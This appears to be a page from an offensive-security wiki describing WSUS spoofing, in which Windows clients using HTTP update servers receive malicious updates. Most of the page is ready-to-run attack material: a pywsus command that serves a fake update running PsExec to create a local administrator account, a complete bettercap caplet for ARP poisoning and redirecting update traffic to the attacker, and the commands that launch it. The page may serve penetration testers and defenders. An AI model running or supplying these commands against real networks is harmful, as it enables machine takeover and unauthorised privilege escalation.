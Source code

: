 # WSUS spoofing

## Theory

WSUS \(Windows Server Update Services\) allow administrators to centralize the management and deployment of Windows updates within their organization network. When first configuring this set of services, the default configuration makes the WSUS use HTTP without any secure layer like SSL/TLS. HTTPS is not enforced by default.

When pulling an update from the WSUS server, clients are redirected to the executable file to download and execute \(which can only be a binary signed by Microsoft\) and obtain a handler named `CommandLineInstallation` that specifies the additional parameters to pass the binary during the update installation. Without HTTPS, the WSUS is vulnerable to Man-in-the-Middle attacks where adversaries can either pose as the update server and send malicious updates or intercept and modify updates sent to the clients.

## Practice

The following command prints the WSUS server the client requests when searching for an update. If the path looks like `http://wsus.domain.local/`, showing the use of HTTP instead of HTTPS, the attacks can be attempted.

```text
reg query HKML\Software\Policies\Microsoft\Windows\WindowsUpdate /v wuserver
```

The WSUS spoofing attack can be conducted as follows

1. Obtain a Man-in-the-Middle position between clients and the update server with [ARP poisoning](../../../active-directory-domain-services/movement/mitm-and-coerced-authentications/arp-poisoning.md).
2. Redirect traffic from `clients -> legitimate WSUS` to `clients -> attacker's WSUS`
3. Have a custom WSUS server running able to send evil updates to clients

In a scenario where the clients and the attacker are on the same subnet, and the update server is on another one, the steps below can be followed. For other scenarios or more info on ARP poisoning, have a look at : [ARP poisoning](../../../active-directory-domain-services/movement/mitm-and-coerced-authentications/arp-poisoning.md).

### Preparing the evil WSUS

The evil WSUS server needs to be started before doing any ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)\(Python\) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
```

Programs other than PsExec.exe can be used here. Using built-in programs features to bypass security restrictions or operate attacks like this is called [Living off the land](living-off-the-land.md) \(LOL\). Other Windows LOL binaries and scripts \(a.k.a. LOLbins or LOLbas\) can be found on [lolbas-project.github.io](https://lolbas-project.github.io/#).

### Poisoning and hijacking

Once the WSUS server is up and running, the ARP poisoning attack can start. The best tool to operate ARP poisoning is [bettercap](https://www.bettercap.org/) \(Go\) and for the majority of the scenarios, basic knowledge of the iptables utility is required.

Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

{% code title="wsus\_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

### Triggering Windows update

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`. 

{% hint style="info" %}
By default, the automatic updates interval is 22 hours \([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)\).
{% endhint %}

## Alternative attack

Another way of attacking insecure WSUS without having to rely on ARP poisoning but requiring user access to the target machine is explained in the following blogpost : [WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

## Resources

{% embed url="https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/" %}

